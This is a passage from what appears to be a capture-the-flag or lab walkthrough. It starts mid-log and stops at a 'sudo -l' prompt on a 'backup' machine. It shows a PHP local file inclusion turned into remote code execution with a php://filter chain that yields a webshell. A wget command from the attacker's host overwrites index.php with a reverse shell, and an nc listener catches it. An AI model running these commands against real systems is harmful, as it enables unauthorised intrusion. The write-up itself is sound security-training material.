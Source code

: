 05/13/23|04:37:02 [+] Data from dev zipped (size:877071)
05/13/23|04:38:01 [+] Data copied from dev machine
05/13/23|04:38:01 [+] Data from dev zipped (size:877071)
```

We can just use the file GET parameter to do LFI, so we can use this to get RCE :

https://github.com/synacktiv/php_filter_chain_generator

First, generate the php filter chain :
```
# python3 php_filter_chain_generator.py --chain '<?php system($_GET["c"]);?>'
[+] The following gadget chain will generate the following code : <?php system($_GET["c"]);?> (base64 value: PD9waHAgc3lzdGVtKCRfR0VUWyJjIl0pOz8+)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157
...
|convert.base64-decode/resource=php://temp
```

Then puse it on the file GET parameter to get RCE :
```
bob@dev:~$ curl 'backup?file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode
...
|convert.base64-decode/resource=php://temp&c=ls+-la'|cat
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   442    0   442    0     0  43797      0 --:--:-- --:--:-- --:--:-- 49111
total 16
drwxr-xr-x 1 root     root     4096 May 12 18:17 .
drwxr-xr-x 1 root     root     4096 May 12 18:16 ..
-rw-r--r-- 1 root     root      612 May 12 18:16 index.nginx-debian.html
-rw-r--r-- 1 www-data www-data  155 May 12 10:16 index.php
```

We can see that have write permission on `index.php`, so we can overwrite it with a php reverse shell to get reverse shell :

```
bob@dev:~$ curl 'backup?file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157
...
|convert.base64-decode/resource=php://temp&c=wget+http://<our address>/rev.php+-O+index.php'|cat
```

Then just setup a listener :
```
nc -nlvp 1337
```

As index.php is overwritten, we can just run `curl backup` to get the reverse shell

Then we will get a reverse shell as www-data on the backup machine

We can run `/usr/bin/rsync` as the `backup` user with sudo without password : 
```
(remote) www-data@backup:/$ sudo -l